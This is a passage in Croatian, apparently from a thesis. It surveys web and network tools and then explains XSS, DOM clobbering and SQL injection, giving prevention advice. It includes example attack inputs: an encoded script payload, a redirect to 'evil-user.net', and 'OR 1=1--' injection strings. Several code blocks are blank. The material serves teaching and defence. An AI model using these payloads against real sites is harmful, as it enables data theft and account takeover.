\item ExoressJS
\end{itemize}

\section{ExpressJS}
ExpressJS je softverski okvir koji pruža jednostavno aplikacijsko programsko sučelje (eng. API-Application programming interface) za izradu back-end-a web aplikacija. Za povećanje fleksibilnosti, ExpressJS se može nadograditi brojnim npm modulima. Funkcionalnosti koje ExpressJS podržava su \cite{expss} 

\begin{itemize}
\item \textbf{Rutiranje}, koje omogućava da za danu putanju i tip HTTP zahtjeva web aplikacija izvrši željene radnje
\item \textbf{Dinamični URL}, kojim je moguće stvoriti predložak putanje, sličan regularnom izrazu, za koje se ExpressJS ponaša na isti način
\item \textbf{Međusoftver} (eng. middleware), je funkcija koja obrađuje svaki HTTP zahtjev prije funkcije rutiranja, obično se koriste za parsiranje tijela zahtjeva ili dodavanja zaglavlja
\item \textbf{Šabloniranje stranica}, omogućava izradu šablonskih stranica kojima je moguće proslijediti podatke za popunjavanje naznačenih mjesta u stranici
\item \textbf{Statični dokumenti}, omogućavaju dohvaćanje nepromjenjivih dokumenata preko relativne putanje u odnosu na korijensku datoteku
\item \textbf{Rukovanje podatcima obrazaca} (eng. form data), omogućava obrađivanje podataka koji su web aplikaciji poslani preko obrasca. Za ovo se često koristi međusoftver body-parser
\item \textbf{Rad s bazama}, koji se ostvaruje preko API-a za pojedinu dostupan kao npm modul, na ovaj način web aplikacija može spremati podatke za naknadno korištenje
\item \textbf{Kolačići}, korištenjem npm modula poput cookie-parser moguće je pratiti korisnika na web aplikaciji
\item \textbf{Sesije}, kojima je moguće pratiti korisnika na web aplikaciji, kao i kod kolačića, ali tako da podatci nisu vidljivi na klijentskoj strani, već je sve spremljeno na serveru, a klijentu je vidljiv samo njemu dodijeljen ID
\item \textbf{Autentikacija}, kojom provjeravamo dali stranici pristupa korisnik koji ima pravo ulaska u stranicu. Autentikacija se obično radi preko korisničkog imena i lozinke
\item \textbf{RESTful API}, omogućava da na jednostavan način, korištenjem URL putanja i HTTP metoda baratamo s podatcima u bazi
\item \textbf{Upravljanje greškama}, koje se obavlja pomoću zasebnog međusoftvera, omogućava web aplikaciji da prilikom greške ostanu aktivne, te obavijeste korisnika o nastaloj grešci
\end{itemize}

\section{PHP}
PHP je serverski skriptni jezik koji je ugrađen u HTML te se koristi za stvaranje dinamičkog sadržaja, otvaranje komunikacije s bazom te praćenje sesija. PHP ima sličnu sintaksu kao i C kako bi se smanjila potreba za učenjem novih koncepata. Jezik je također integriran sa najkorištenijim bazama podataka kao što su MySQL, PostgreSQL, Oracle, Sybase i MS SQL. PHP je iznimno brz u svom izvršavanju pogotovo kada se vrti kao Apache modul na sustavima baziranim na Unix-u te u kombinaciji s MySQL bazom podataka \cite{php}.

Česte primjene PHP-a su:

\begin{itemize}
\item Rad s dokumentima
\item Obrada formi, prikupljanje i spremanje podataka u dokumente te slati i primati e-mailove
\item Rad nad bazom podataka
\item Upravljanje kolačićima i sesijama
\item Restrikcija stranica određenim korisnicima
\item Enkripcija podataka
\item Rad s GET i POST HTTP zahtjevima
\end{itemize}

\section{ASP .NET}
ASP .NET je platforma za razvoj koja pruža opsežnu softversku infrastrukturu te mnoštvo različitih servisa potrebnih za izgradnju robusne web aplikacije, bilo za mobilne uređaje ili računala. ASP .NET funkcionira povrh HTTP protokola te koristi HTTP za uspostavu komunikacije između servera i web preglednika. ASP .NET aplikacije mogu biti napisane koristeći C\#, Visual Basic .Net, Jscript, J\#.

ASP .NET web forme donose interakcije upravljane događajima (eng. event-driven) kod web aplikacija. Kako je HTTP protokol koji ne posjeduje stanja (eng. stateless), ASP .NET pomaže u pohranjivanju informacija vezane za stanje aplikacije, koje se sastoji od stanja stranice i stanja sesije.

ASP .NET model komponenti (eng. component model) je objektni model koji opisuje gotovo sve elemente na strani servera koji odgovaraju HTML elementima te serverske kontrole, kojima se razvijaju korisnička sučelja. Kako je ASP .NET baziran na objektno orijentiranoj hijerarhiji to znači da je svaka ASP .NET stranica objekt, kao i sve njezine komponente \cite{aspnet}. 

Prednosti ASP .NET-a su:

\begin{itemize}
\item Podržavanje više jezika
\item Jednostavna izrada velikih aplikacija
\item Mogućnost izrade fornt-end-a i back-end-a web aplikacije na istoj platformi
\item Podržavanje dinamičkih web stranica
\item Jednostavno postavljanje web aplikacija
\item Visoke performanse korištenjem JIT kompajliranja, ranog vezivanja (eng. early binding) te usluga kaširanja
\end{itemize}

\section{Wireshark}

Wireshark je najrašireniji i najpoznatiji alat za analizu mrežnih protokola koji omogućava uvid u promet podataka na mreži do najmanje razine \cite{wsh}. Funkcionalnosti koje Wireshark posjeduje su:

\begin{itemize}
\item Mogućnost snimanja prometa na mreži te sposobnost naknadne analize
\item Snimljeni mrežni promet podataka se može pregledati putem GUI-a ili programatski korištenjem TTY moda TShark programa
\item Preglednik paketa
\item Mogućnost duboke inspekcije više od stotinu protokola
\item Filtriranje prometa po raznim kategorijama
\item Mogućnost analize VoIP-a
\item Mogućnost snimanja prometa podataka s raznih adaptera, poput: Ethernet, IEEE 802.11, Bluetooth, USB, ATM, PPP/HDLC te mnogi drugi adapteri u koje spadaju virtualni adapteri potrebne za virtualne mašine
\item Podrška dekripcije raznih protokola, poput: IPsec, ISAKMP, Kerberos, SNMPv3, SSL/TLS, WEP te WPA/WPA2
\end{itemize}

\section{Kali Linux}
Kali Linux je Linux distribucija bazirana na Deabian-u koja je namijenjena za napredno probojno testiranje (eng. penetration testing ili pen testing) te sigurnosne preglede. 
Kali Linux je nastao kao potpuno obnovljen BackTrack Linux. Kali sadrži brojne alate za pen testiranje, računalnu forenziku te obrnuto inženjerstvo \cite{kali}.

Karakteristike Kali Linuxa su:

\begin{itemize}
\item Preko 600 alata za pen testiranje
\item Besplatan
\item Linux distribucija napisana kao kod otvorenog tipa (eng. open-source code)
\item Poštuje FHS koji omogućava Linux korisnicima jednostavan pronalazak biblioteka te pomoćnih datoteka
\item široka podrška bežičnih uređaja, koja obično predstavljaju problem za Linux distribucije
\item Jako velika mogućnost prilagodbe, što uključuje i kernel
\item Podrška za ARMEL i ARMHF što omogućava korištenje Kali Linux-a na uređajima poput Rasbery Pi ili BeagleBone Black
\end{itemize}

\section{tcpdump}
Tcpdump je besplatan računalni program za analizu mrežnih paketa koji se pokreče preko komandne linije. Ovaj program omogućava uvid u TCP/IP i druge pakete koji se šalju ili primaju preko mreže na koju je računalo povezano.

Tcpdump se koristi na Unix sličnim operacijskim sustavima kao što su Linux, Solaris, FreeDBS, macOS, OpenDBS, OpenWrt. U navedenim operacijskim sustavima tcpdump koristi biblioteku libpcap za hvatanje mrežnih paketa. Verzija tcpdump za Windows operacijske sustave se zove WinDump koja koristi WinPcap biblioteku, koja je preslika libpcap biblioteke za Windows.

Tcpdump omogućava hvatanje mrežnih paketa WiFi, Ethernet, USB, Bluetooth te virtualnih adaptera. Nakon što program završi s hvatanjem paketa, na standardom izlazu se ispisuje sljedeće \cite{tpdump}

\begin{itemize}
\item Broj uhvaćenih paketa, predstavlja broj primljenih i obrađenih paketa
\item Broj paketa koji su prošli filter, predstavlja broj paketa koji su zadovoljili filter i koji su procesirani
\item Broj paketa koje je kernel ispustio, predstavlja broj paketa koji su ispušteni zbog manjka prostora na baferu
\end{itemize}

\section{BIND}
BIND je popularni softver za razlučivanje domenskih imena u IP adrese, odnosno za kreiranja DNS servera koji je obično koriste na Linux sustavima. BIND je originalno napisan 1980-tih na Berkeley kampusu na sveučilištu u Kaliforniji, a trenutno je softver otvorenog koda. Za jednostavne, male mreže BIND je i više nego dovoljan za pružanje DNS usluga.

Funkcionalnosti koje BIND pruža su \cite{bind}

\begin{itemize}
\item Stvaranje autoritativnog DNS-a, koji objavljuje DNS zone i zapise pod serverskom autoritativnom kontrolom kao primarni ili sekundarni server
\item Razdvojeni DNS, koji omogućava objavljivanje više verzija DNS imenskog prostora što uključuje pružanje različitih setova podataka unutarnjim korisnicima te Internetu kao cjelini
\item Rekurzivni DNS, koji hvata podatke od drugih DNS servera u ime klijentskog sistema u što spadaju mobilni uređaji, stolna računala i serveri
\item Dinamično ažuriranje, kojim se dodaju ili brišu zapisi u primarni server specifičnom vrstom DNS poruka
\item Učinkovita replikacija podataka, koja omogućava kopiranje podataka s primarnog na sekundarni server
\item DNS sigurnosna ekstenzija, koja kriptografski potpisuje autoritativne podatke i kriptografski provjerava primljene podatke na serveru
\item Transakcijski potpisi (TSIG) i ključevi (TKEY) kriptografski potpisuju poruke koristeći prethodno dijeljene ključeve ili dinamički dogovorene ključeve, uključujući i one koje koristi Microsoft Active Directory
\item DDOS sprječavanje, koja upravlja količinom štete načinjenu DDOS napadima
\item Podrška IPv6 protokola objavljivanjem IPv6 adrese za imena i direktnim sudjelovanjem u IPv6 umrežavanju.
\end{itemize}

\section{Microsoft SQL}
Microsoft SQL Server ili MS SQL je upravljački sustav za relacijsku bazu podataka razvijen od strane Microsoft-a. Ova baza podataka je napravljena za jednostavne funkcionalnosti pohrane te dohvaćanja podataka na zahtjev aplikacije. MS SQL se može pokrenuta lokalno ili na drugom računalu, u kom slučaju se bazi pristupa preko mreže.

Arhitektura MS SQL Servera se sastoji od generalne, memorijske, podatkovne i zapisne arhitekture. Generalna arhitektura se sastoji od:

\begin{itemize}
\item Klijent, odakle dolaze zahtjevi
\item Upit, SQL upit koji je jezik visoke razine
\item Logičke jedinice, gdje spadaju ključne riječi, izrazi i operatori
\item N/W paketi, kod vezan za mrežu
\item Protokoli, u koje spadaju zajednička memorija, imenovane cijevi (eng. named pipes), TCP/IP te VIA
\item Server gdje se nalaze SQL servisi i baza podataka
\item Relacijski pogonski sklop (eng. relation engine), obavlja svu egzekuciju te se sastoji od parsera upita, optimizatora upita te izvršitelja upita
\item Plan izvršavanja, sadrži red izvršavanja radnji
\item Pogonski sklop za pohranu (eng. storage engine), zadužen je za pohranu i dohvaćanje podataka, manipulaciju podatcima i zaključavanje i upravljanje transakcijama
\item SQL operacijski sustav ili SQL OS, služi kao posrednik između operacijskog sustava računala i SQL servera.
\end{itemize}

Ključne stavke memorijske arhitekture su:

\begin{itemize}
\item Dizajnirana tako da optimizira operacije čitanja i pisanja podataka na disk
\item Pristup memoriji se obavlja preko virtualnog adresnog prostora (eng. virtual address space) kojeg dijele operacijski sustav i aplikacije
\item Korisnički adresni prostor je podijeljen na MemToLeave i Buffer Pool čija se veličina određuje prilikom paljenja SQL servera
\item upravljanje baferom (eng. buffer menagment) je ključni dio arhitekture za postizanje visoke efektivnosti čitanja i pisanja. Sastoji se od upravljača bafera (eng. buffer manager), koji pristupa i obnavlja stranice baze i buffer pool, koji smanjuje I/O operacije nad bazom
\item Sprema procedura (eng. procedural cache) pohranjuje procedure i planove izvršavanja kako bi se smanjila potreba za ponovnim generiranjem planova izvršavanja
\end{itemize}

Podatkovna arhitektura se sastoji od:

\begin{itemize}
\item Grupe dokumenata, koriste se radi jednostavnije alokacije i organizacije dokumenata. Dokument može pripadati samo jednoj grupi dokumenata, dok se zapisi upravljaju zasebno. Grupe se dijele na primarne, koje su zadane grupe, te korisnički definirane grupe dokumenata
\item Postoje 3 vrste tipova dokumenata, primarni, sekundarni te zapisni tip dokumenta. Primarni tip dokumenta pokazuje na druge dokumente u bazi podataka te posjeduje ekstenziju .mdf. U bazi može biti više sekundarnih tipova datoteka te se preporučuje da one koriste ekstenziju .ndf. Zapisne datoteke sadrže zapisnik koji koristimo za povrat informacija ako se nešto dogodilo s podatcima u bazi, preporučena ekstenzija je .ldf
\item Extent je najmanja jedinica podataka koja se koristi za alociranje tablica. On se sastoji od 8 stranica ili 64KB. Postoje dvije vrste extent-ova, uniformni i miješani. Uniformni sadrži samo jedan objekt dok miješani mogu sadržavati i do 8 objekata
\item Stranica je temeljna jedinica podataka u MS SQL serveru koja iznosi 8KB. Na početku svake stranice se nalazi zaglavlja koje sadrži informacije o stranici. Tipovi stranica su: podatci, indeksi, Tex/slike, GAM (podatci o alociranim extent-ovima), SGAM (podatci o alociranim extent-ovima na razini sistema), PFS (informacija o slobodnom prostoru na stranici), IAM(informacija o extent-ovima koje koriste tablice i indeksi), BCM(informacije o extent-ovima koje su mijenjale bulk operacije od zadnjeg pohranjivanja), DCM(informacije o extent-ovima koji su se promijenili od zadnjeg pohranjivanja) 
\end{itemize}

Zapisna arhitektura se sastoji od zapisa transakcija sastavljen od zapisa označen sa identifikacijskim brojem (eng.LSN-Log Sequence Number). Zapisi bilježe promjene na podatcima time što se zapisuju napravljene logičke operacije ili time što se pamti stanje podataka prije i poslije promjene. Pomoću zapisa moguće je vratiti podatke u prijašnje stanje tako da se izvrše inverzne operacije nad podatcima. U zapis se bilježe početak i kraj transakcije, sve promjene napravljene na podatcima, svaka alokacija i dealokacija extent-ova i stranica, stvaranje ili brisanje tablica ili indeksa te operacije povrata podataka na prethodno stanje. 

Funkcionalnosti koje pruža MS SQL Server su \cite{mssql}

\begin{itemize}
\item Autentikacija za pristup bazi, koja može obavljati preko Windows akreditiva, korisničkog imena i lozinke specifični za SQL server, certifikata te asimetričnih ključeva
\item Stvaranje baze, čime se može stvoriti potpuno nova baza ili obnoviti postojeća baza na temelju dokumenta
\item Brisanje baze
\item Stvaranje sigurnosne kopije baze
\item Stvaranje korisnika koji imaju pristup bazi
\item Dodavanje privilegija korisnicima
\item HA funkcionalnosti, koje osiguravaju visoku dostupnost baze. Ova funkcionalnost se postiže replikacijom, prijenos zapisa (eng. log shipping), zrcaljenje, nakupljanje podataka (eng. clustering) te uvijek dostupnim grupama (eng. alwaysON alvailavility groups)
\end{itemize}

\chapter{KORIŠTENI TIPOVI NAPADA}
Ranjivost web aplikacija su slabosti ili pogrešne konfiguracije koje se nalaze u kodu web aplikacija ili web stranica koje omogućavaju napadaču da dobije određenu razinu kontrole nad stranicom ili serverom. Većina ranjivosti se iskorištavaju pomoću automatiziranijih sustava poput skenera ranjivosti ili botnet-ova. Specijalizirani alati su napravljeni od strane napadača kako bi pronašli poznate ranjivosti na specifičnim platformama kao što su WordPress i Joomla. Nakon što su ranjivosti pronađene, one se zloupotrijebe kako bi se izvukli podatci sa stranice ili unio maliciozan sadržaj \cite{ranj}.

Napadi koji su korišteni u izradi obog diplomskog rada su:

\begin{itemize}
\item Cross Site Scripting
\item DOM clobbering
\item SQL injection
\item Keylogger
\end{itemize}

\section{Cross Site Scripting}
Cross Site Scripting ili XSS napad je jedan od najčešćih napada na aplikacijski razini. XSS ranjivosti otvaraju mogućnost napada na skripte koje su ugrađene u web stranicu te se izvršavaju na klijentskoj strani web aplikacije, odnosno u web pregledniku. XSS ranjivosti proizlaze iz skriptnih jezika koje se koriste na klijentskoj strani aplikacije, kao npr. HTML i JavaScript. Cilj XSS napada je izmanipulirati skripte, koje se izvršavaju u web pregledniku, da se ponašaju, ne kako su to namijenili dizajneri web aplikacije, već kako napadač hoće. Ovakvi napadi mogu ubaciti skriptu unutar stranice koja će se izvršavati svaki put kada se stranica učita ili kada se odgovarajući događaj napravi.

XSS ranjivosti nastaju kada web aplikacija primi podatke od korisnika te ih dinamički inkorporira u stranicu bez da se prije toga podatci provjere. Primjer ovakve ranjivosti je situacija u kojoj web aplikacija ne sanitizira ime korisnika koji može sadržavati HTML img element koji kada dođe do greške izvršava proizvoljni kod. Ovakve ranjivosti napadaču omogućavaju izvršavanje proizvoljnog koda ili prikaza bilo kakvog sadržaja unutar web preglednika žrtve. Uspješan XSS napad može značiti da napadač dobije kontrolu nad žrtvinim web preglednikom ili profilom na ranjivoj web aplikaciji. Iako je XSS ugrađen u ranjivu web aplikaciju, žrtve aplikacije su njeni korisnici, a ne sama aplikacija. Snaga XSS ranjivosti leži u činjenici da se maliciozni kod izvršava unutar žrtvine sesije, što omogućava napadačima da zaobiđu normalne sigurnosne restrikcije \cite{xsstut}.

XSS napadi se mogu podijeliti na tri tipa:

\begin{itemize}
\item Reflektirani XSS
\item Pohranjeni XSS
\item DOM bazirani XSS
\end{itemize}

\subsection{Reflektirani XSS}
Reflektirani XSS nastaje kada aplikacija primi podatke preko HTTP zahtjeva i ugradi ih u sljedeći odgovor, koju web aplikacija šalje, na nesiguran način. Primjerice, ako stranica sadrži funkcionalnost pretraživanja koja prima korisnički izraz za pretraživanje preko URL parametra.

\begin{verbatim}
https://insecure-website.com/search?term=gift
\end{verbatim}

Web aplikacija inkorporira korisničke podatke na sljedeći način

\begin{verbatim}

You searched for: gift

\end{verbatim}

Pretpostavljajući da aplikacija ne obavlja nikakvu daljnju obradu podataka, napadač može konstruirati napad na sljedeći način:

\begin{verbatim}
https://insecure-website.com/search?term=
\end{verbatim}

Na što aplikacija odgovara sa:

\begin{verbatim}
<p>You searched for: <script>/* Bad stuff here... */</script></p>
\end{verbatim}

Ako drugi korisnik aplikacije pristupi web stranici preko napadačevog URL-a, tada će se izvršiti skripta unutar žrtvinog web preglednika u kontekstu žrtvine sesije s web aplikacijom, čime se otvara mogućnost zloupotrebama web aplikacije.

Ako napadač može izvršiti skriptu unutar žrtvinog web preglednika, tada napadač može:

\begin{itemize}
\item Izvršiti bilo kakvu radnju unutar aplikacije koju žrtva može napraviti
\item Imati pristup svim informacijama koje žrtva može vidjeti
\item Mijenjati bilo kake podatke koje žrtva može mijenjati
\item Započinjati interakcije s drugim korisnicima aplikacije, uključujući i napade, koji će izgledati da potiču od početne žrtve
\end{itemize}

Postoje razni načini pomoću kojih napadač može izvršiti ovaj tip napada. Napad se može obaviti tako da napadač postavi link na stranici koju kontrolira napadač ili na stranici na kojoj se može generirati sadržaj. Također, napad se može izvršiti slanjem linka preko e-maila, tweeter objave ili neke druge poruke. Napad može biti namijenjen za specifičnog korisnika ili za bilo kojeg korisnika web aplikacije. 

Potreba za vanjskim mehanizmom dostave čini ovaj napad uglavnom manje opasnim u odnosu na pohranjeni XSS napad koji je opisan u narednom potpoglavlju \cite{xssref}.

\subsection{Pohranjeni XSS}
Pohranjeni XSS, još poznatiji pod nazivom XSS drugog stupnja ili postojani XSS napad, nastaje kada web aplikacija primi podatke od nepouzdanog izvora i ugradi ih u naknadni HTTP odgovor na nesiguran način. 

Pretpostavimo da web stranica dopušta korisniku postavljanje komentara na blog članak koji vide drugi korisnici. Korisnici svoje komentare šalju HTTP zahtjevom:

\begin{verbatim}
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net
\end{verbatim}

Nakon što je komentar poslan, svaki korisnik koji pristupi tom blog članku će vidjeti sljedeće:

\begin{verbatim}
<p>This post was extremely helpful.</p>
\end{verbatim}

pretpostavljajuću da aplikacija ne radi dodatnu obradu nad podatcima, napadač može poslati sljedeći maliciozan komentar:

\begin{verbatim}

\end{verbatim}

U napadačevom zahtjevu ovaj komentar bi bio URL enkodiran na sljedeći način:

\begin{verbatim}
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E
\end{verbatim}

Svaki korisnik koji pristupi tom članku će primiti sljedeće unutar odgovora web aplikacije:

\begin{verbatim}


\end{verbatim}

Čime je napadač dobio način da izvrši maliciozan kod unutar sesija svakog korisnika koji posjeti taj članak.

Korištenjem ove ranjivosti napadač može nanijeti jednaku štetu kao i s reflektiranim XSS napadom. 

Što se tiče mogućnosti zloupotrebljavanja, ključna razlika između reflektiranog XSS i pohranjenog XSS je to što pohranjeni XSS ranjivosti omogućavaju napade koji su u potpunosti enkapsulirani unutar ranjive web aplikacije. To znači da napadač može navesti žrtvu da pošalje maliciozan zahtjev bez linkova ili poruka izvan ranjive web aplikacije, već napadač može postaviti takve zamke unutar same web aplikacije. 

Ugrađenost pohranjenih XSS napada u web stranicu je posebno relevantna u situacijama kada ranjivost može naštetiti samo korisnicima koji su trenutno prijavljeni na web aplikaciji. Ako je XSS napad reflektiran, tada žrtve koje nisu trenutno prijavljene u aplikaciju su zaštićene od napada jer napad mora biti dobro tajmiran, međutim ako je XSS napad pohranjen onda je osigurano da će žrtva biti prijavljena na web aplikaciju kada naiđu na maliciozan dio koda \cite{xssstor}.

\subsection{DOM bazirani XSS}
DOM baziranje XSS ranjivosti obično nastaju kada JavaScript primi podatke od izvora podatak kojeg kontrolira napadač, kao što je URL, te ih proslijedi ranjivost funkciji koja dinamično izvršavanje koda. Primjer takvih funkcija su \texttt{eval()} i \texttt{innerHTML}. Ovo omogućava napadaču izvršavanje malicioznog koda, što uobičajeno znači da napadač može preuzeti žrtvin profil na ranjivoj web aplikaciji. Vrijednost koju kontrolira napadač naziva se izvor, a funkcija koja nesigurno obrađuje podatke se zove odvod (eng. sink). Kako bi se izvršio DOM baziran XSS napad potrebno je postaviti podatke u izvor kako bi se oni propagirali do odvoda i izazvali izvršavanje malicioznog koda.

Najobičniji izvor je URL, kojem se tipično pristupa preko \texttt{location} objekta. Napadač može napraviti link s malicioznim sadržajem u upitnom (eng. query string) i fragmentom dijelu URL-a.

\begin{verbatim}
goto = location.hash.slice(1)
if(goto.startsWith('https:')) {
  location = goto;
}
\end{verbatim}

Navedeni kod je ranjiv na DOM baziranu redirekciju jer \texttt{location.hash} je izvor koji je tretiran na nesiguran način. Ako URL sadrži hash fragment koji započinje sa \texttt{https:}, tada ovaj kod vrijednost svojstva \texttt{location.hash} i postavlja je kao vrijednost svojstva \texttt{location}. Napadač bi moga iskoristi ovu ranjivost koristeći sljedeći URL:

\begin{verbatim}
https://www.innocent-website.com/example#https://www.evil-user.net
\end{verbatim}

Kada žrtva posjeti ovaj URL, JavaScript postavi \texttt{https://www.evil-user.net} kao vrijednost svojstva \texttt{location}, što automatski preusmjerava žrtvu na malicioznu web stranicu \cite{xssdom}.

\subsection{Prevencija XSS}
Prevencija XSS napada je trivijalna u nekim slučajevima, dok je u drugim to puno teže ovisno o složenosti web aplikacije i načinu na koji ona barata s korisničkim podatcima. U većini slučajeva sprječavanje XSS ranjivosti obuhvaća više sljedećih metoda \cite{xssport}

\begin{itemize}
\item Filtriranje ulaznih podataka na ulasku. U trenutku kada se korisnički podatci prime, filtrirati ih što je strože moguće ovisno o tome što je očekivani oblik podataka.
\item Kodiranje podataka na izlazu. Kada se korisnički podatci šalju preko HTTP odgovora, kodirati odlazne podatke kako bi se spreijčila njihova interpretacija kao aktivni sadržaj. Ovisno o kontekstu, ovo može zahtijevati kombinirano HTML, URL, JavaScript i CSS kodiranje.
\item Koristiti odgovarajuće zaglavlje za odgovor. Kako bi spriječili XSS u HTTP odgovorima koji ne bi trebali sadržavati HTML ili JavaScript, mogu se koristiti \texttt{Content-Type} i \texttt{X-Content-Type-Options} zaglavlja kako bi se osiguralo da web preglednik interpretira odgovore na prihvatljiv način.
\item Politika sigurnog sadržaja (eng.CSP-Content Security policy). Kao posljednja linija obrane može se koristiti CSP kako bi se smanjio rizik od bilo kakvih XSS ranjivosti.
\end{itemize}

\section{DOM clobbering}
DOM clobbering je tehnika kojom je moguće ubaciti HTML u web stranicu kako bi manipulirali DOM i u konačnici promijenili ponašanje JavaScripta na stranici. DOM clobbering je posebno koristan u situacijama kada XSS napadi nisu mogući, ali je i dalje moguće kontrolirati neke HTML elemente na web stranici gdje su vrijednosti atributa \texttt{id} i \texttt{name} dopušteni kroz HTML filter. Najčešća primjena ovog napada je korištenje sidrenog (eng. anchor) elementa koji se koristi kako bi se prebrisala globalna varijabla, koju web aplikacija koristi na nesiguran način, kao što je generiranje dinamičkih skriptnih URL-a. Naziv clobbering (hrv. ugnjetavanje) dolazi iz činjenice da ugnjetavamo globalnu varijablu ili svojstvo objekta i prebrisujemo ga s DOM čvorom (eng. node) ili HTML kolekcijom. Naprimjer, mogu se koristiti DOM objekti za prebrisavanje drugih JavaScript objekata kako bi zloupotrijebili nesigurna imena, kao što je \texttt{submit}, kako bi se poremetio rad stvarne \texttt{submit()} funkcije.

\subsection{Izvođenje DOM clobbering napada}

Česti dizajnerski uzorak koji koriste JavaScript developeri je:

\begin{verbatim}
var someObject = window.someObject || {}; 
\end{verbatim}

Ako je moguće kontrolirati neki dio HTML-a na web stranici, tada se može ugnjetavati \texttt{someObject} referenca s DOM čvorom. Uzmimo sljedeći kod:

\begin{verbatim}
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
\end{verbatim}

Kako bi se ovaj kod zloupotrijebio potrebno je ubaciti sljedeći HTML kako bi se ugnjetavao \texttt{someObject}:

\begin{verbatim}

\end{verbatim}

Kako dva sidrena elementa koriste isti ID, DOM ih grupira u DOM kolekciju. Rezultat ovoga je da se \texttt{someObject} prebriše s DOM kolekcijom. Atribut \texttt{name} se koristi na drugom sidrenom elementu kako bi se ugnjetavalo \texttt{url} svojstvo objekta \texttt{someObject} čime ono sad pokazuje na skriptu koja se nalazi na URL pridijeljenom \texttt{href} atributu.

Druga tehnika kojom se može napraviti DOM clobbering je korištenje \texttt{form} elementa zajedno s elementom kao što je \texttt{input} kako bi se ugnjetavala DOM svojstva. Npr. ugnjetavanjem \texttt{attributes} svojstva omogućava zaobilaženje filtera na klijentskoj strani. Iako će filter proći kroz \texttt{attributes} svojstva, on ih neće maknuti niti jedan atribut jer je to svojstvo ugnjetavano s DOM čvorom. Posljedica ovoga je mogućnost ubacivanja malicioznih atributa koji bi u normalnoj situaciji bili filtrirani, odnosno odbačeni. Za primjer uzmimo sljedeći kod:

\begin{verbatim}

Click me
\end{verbatim}

U ovom slučaju, filter na klijentskoj strani će proći kroz DOM i naići će na dopušteni \texttt{form} element. Normalno ponašanje filtera je da on prolazi kroz \texttt{attributes} svojstvo elementa \texttt{form} i briše one atribute koji nisu dozvoljeni. Međutim, kako je \texttt{attributes} svojstvo ugnjetavano sa \texttt{input} elementom, filter će prolaziti umjesto toga kroz \texttt{input} element. Pošto \texttt{input} element nije zatvoren, što znači da ima neodređenu duljinu, uvjet za \texttt{for} petlju filtera (kojom filter prolazi kroz atribute) se ne može postići, stoga filter jednostavno nastavi pregledavati sljedeći element. Ovo rezultira time da filter ignorira \texttt{onclick} event, što omogućava pozivanje \texttt{alert()} funkcije u web pregledniku. Ovakvo pozivanje \texttt{alert()} funkcije samo ukazuje na mjesto u kodu gdje se može staviti maliciozan kod koji bi imao učinka \cite{domnapad}.

\subsection{Prevencija ranjivosti DOM clobbering}
Najjednostavniji način sprječavanja DOM clobbering napada je provjerom funkcija i objekata kojom se utvrđuje da oni imaju očekivani oblik. Npr. može se provjeriti dali atributi svojstva DOM čvora su instance \texttt{NameNodeMap}. Ovime se osigurava da je neko svojstvo uistinu atribut svojstva, a ne ugnjetavani HTML element. Također, preporučuje se izbjegavanje korištenja globalnih varijabli zajedno s logičkim operatorom ILI, tj. \texttt{||}, jer to može dovesti do DOM clobbering ranjivosti \cite{domclob}.

\section{SQL injection}
SQL ubacivanje (eng.SQLi-SQL injection) je web ranjivost koja omogućava napadaču da poremetiti upite koje web aplikacija šalje bazi podataka. U većini slučajeva, ova ranjivost napadaču daje uvid u podatke koji normalno nisu dostupni. Ti podatci mogu uključivati podatke drugih korisnika ili bilo koje druge podatke kojima web aplikacija ima pristup. U nekim slučajevima napadač može promijeniti ili izbrisati podatke čime se može uzrokovati trajne promjene u sadržaju web aplikacije ili njenom ponašanju. U iznimnim slučajevima napadač može ugroziti sami server na kojem se nalazi baza podataka,  neki drugi dio back-end infrastrukture ili izvršiti napad za odbijanje usluge (eng. DOS-Denial Of Service).

Postoje različite SQLi ranjivosti, napadi i tehnike koji se mogu iskoristiti u različitim situacijama. Neki od uobičajenih primjera uključuju \cite{sitesqli}

\begin{itemize}
\item Dohvaćanje skrivenih podataka, koje se postiže promjenom SQL upita kako bi vratio dodatne informacije
\item Potkopavanje logike web aplikacije, koje se postiže promjenom SQL upita kako bi poremetili aplikacijsku logiku
\item UNION napadi, pomoću kojih je moguće dohvatiti podatke iz različitih tablica baze podatka.
\item Pregledavanje baze podataka, kod čega je moguće dohvatiti informacije o verziji i strukturi same baze podataka
\item Slijepi SQLi, pomoću kojih se rezultati upita, kojeg napadač kontrolira, ne vračaju uz odgovor od web aplikacije
\end{itemize}

\subsection{Dohvaćanje skrivenih podataka}
Uzmimo za primjer web aplikaciju za online kupnju koja prikazuje proizvode u raznim kategorijama. Kada korisnik odabere ne kategoriju "Darovi", njihov web preglednik šalje zahtjev na URL:

\begin{verbatim}
https://insecure-website.com/products?category=Gifts
\end{verbatim}

Ovo rezultira time da web aplikacija šalje upit u bazu kako bi dobila podatke o proizvodima iz te kategorije:

\begin{verbatim}
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
\end{verbatim}

Ograničenje \texttt{released = 1} se koristi kako bi se sakrili proizvodi koji nisu u prodaji. Za proizvode koji nisu u prodaji se koristi ograničenje \texttt{released = 0}. Kako ova web aplikacija ne primjenjuje nikakvu zaštitu protiv SQLi napada, napadač može napraviti napad na sljedeći način:

\begin{verbatim}
https://insecure-website.com/products?category=Gifts'--
\end{verbatim}

Ovo će rezultirati SQL upitom:

\begin{verbatim}
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
\end{verbatim}

Ključna stvar je da se u SQL znak dvostrukog minusa \texttt{--} shvaća kao indikator komentara, što znači da se ostatak upita tretira kao komentar. Ovime se odstranjuje ostatak upita, što znači da on sada ne sadrži \texttt{AND released = 1}. Ovo znači da će biti prikazani svi proizvodi, uključujući i one koji nisu u prodaji. Također, napadač može prikazati sve proizvode u svim kategorijama sljedećim URL-om:

\begin{verbatim}
https://insecure-website.com/products?category=Gifts'+OR+1=1--
\end{verbatim}

Što rezultira SQL upitom:

\begin{verbatim}
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
\end{verbatim}

Promijenjeni upit će vratiti sve proizvode koji su u kategoriji "Gifts" ili 1 je jednako 1. Kako je \texttt{1=1} uvijek istinitom upit će vratiti sve proizvode \cite{sitesqli}.

